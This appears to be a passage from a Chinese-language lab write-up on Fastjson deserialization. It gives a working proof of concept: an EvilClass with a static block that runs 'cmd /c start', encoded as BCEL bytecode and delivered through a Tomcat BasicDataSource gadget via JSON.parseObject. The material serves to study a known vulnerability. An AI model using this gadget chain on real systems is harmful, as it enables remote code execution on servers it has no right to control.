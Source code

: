 ### POC(parseObject)

其中EvilClass如下：

```java
package fastjson_labs.chain;

import java.io.IOException;
public class EvilClass {
    static {
        try {
            Runtime.getRuntime().exec("cmd /c start");
        } catch (IOException ignore) { }
    }
}
```

然后主代码中是这样的：

```java
package fastjson_labs.chain;

import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;

public class BCELTest {
    public static void main(String[] args) throws Exception {
        JavaClass cls = Repository.lookupClass(EvilClass.class);
        String code = Utility.encode(cls.getBytes(), true);//转换为字节码并编码为bcel字节码
        System.out.println(code);
        String payload =
            "{\n" +
            "    \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
            "    \"driverClassLoader\": {\n" +
            "        \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
            "    },\n" +
            "    \"driverClassName\": \"$$BCEL$$" + code + "\"\n" +
            "}\n";
        JSON.parseObject(payload);
    }
}
```

运行一下，看看实力。
